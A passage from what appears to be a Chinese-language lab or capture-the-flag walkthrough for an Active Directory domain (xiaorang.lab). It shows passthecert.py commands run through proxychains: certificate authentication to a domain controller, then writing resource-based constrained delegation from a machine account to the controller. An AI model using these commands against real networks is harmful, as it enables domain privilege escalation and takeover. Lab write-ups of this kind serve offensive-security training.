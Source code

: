 [![](assets/1707954847-24efd29435515f17d70f1b3f9cbcd827.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165541-00f46d4e-c729-1.png)

```bash
proxychains python3 passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
```

[![](assets/1707954847-b44b22c881d99cad9989b943709a73a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165546-03e29120-c729-1.png)

接下来将证书配置到域控的`RBCD`

```bash
proxychains python3 passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'TEST2$'
```

[![](assets/1707954847-9ab0004e5f14c7fb55bf37b2b280c943.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165554-08780c6a-c729-1.png)
